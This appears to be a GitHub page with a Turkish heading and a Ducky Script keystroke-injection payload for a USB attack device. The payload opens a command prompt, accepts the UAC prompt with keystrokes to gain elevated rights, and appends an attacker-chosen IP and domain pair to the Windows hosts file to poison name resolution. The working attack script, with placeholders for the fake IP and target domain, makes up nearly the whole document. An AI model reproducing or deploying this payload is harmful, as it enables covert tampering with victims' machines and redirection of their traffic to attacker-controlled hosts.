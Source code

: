 ### Bu script /etc/hosts dosyasını düzenleyerek DNS poisoning oluşturur.

```
DELAY 100
GUI r
DELAY 500
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
CTRL SHIFT ENTER
DELAY 800
TAB
DELAY 200
TAB
DELAY 200
ENTER
DELAY 750
STRING ECHO.<YOUR FAKE IP ADDRESS> <DOMAIN YOU WANT TO POISON> >> C:\Windows\System32\drivers\etc\hosts
DELAY 50
ENTER
REM STRING exit
ENTER
```
